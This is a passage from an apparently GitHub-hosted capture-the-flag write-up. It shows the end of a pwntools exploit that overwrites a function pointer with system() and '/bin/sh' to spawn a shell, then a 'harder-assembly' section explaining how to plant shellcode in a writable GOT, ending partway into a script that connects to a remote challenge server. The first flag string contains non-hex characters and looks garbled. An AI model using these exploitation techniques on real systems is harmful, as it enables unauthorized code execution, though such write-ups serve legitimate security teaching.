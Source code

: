 ```CTF{9b93e344611c1fa883es647n5a26130s23124ae5e56bc5005a319a710ae55a92}```
def delete_ctf():
    r.recvuntil(b"Choose: ")
    r.sendline(b"3")

def print_ctf(index):
    r.recvuntil(b"Choose: ")
    r.sendline(b"5")
    r.sendlineafter(b"Select index: ", f"{index}".encode())


def main():

    add_ctf(b"dummy")

    add_desc(b"dummy")

    add_ctf(b"dummy")

    delete_ctf()

    add_desc(b"/bin/sh;"*7 + p32(0x401110)) # address of system

    print_ctf(1)

    r.interactive()


if __name__ == "__main__":
    main()
```

## harder-assembly
### Flag proof
```CTF{9b93e344611c1fa883ef647c5a26730823124ae5e56bc5005a319a710ae55a92}```
### Summary
Write short assembly. Use the GOT to store code such that we bypass the restriction.
### Details
Looking at the binary we see that the GOT is set to be RWX so we can store code there. Two entries are left empty, giving us space for 16 bytes of shellcode. We can also use the exit entry in the GOT to store stuff since it won't be called unless we screw up. I stored "/bin/sh" there. And the code in the two entries i mentioned. We can write byte by byte the all our payload and just call main again. Write one byte, call main, write second byte, call main and so on.
![image](https://github.com/vektor8/CTF-Writeups/assets/56222237/29aa366a-442a-4f46-a1af-a55b4de5b29c)


Final script:
```python
from pwn import *

exe = ELF("./harder")

context.binary = exe
context.terminal = ["tmux", "splitw", "-h"]

def conn():
    if args.LOCAL:
        r = process([exe.path])
        # gdb.attach(r, 
        #            """b *main+288""")
    else:
        r = remote("34.89.210.219", 30226)
```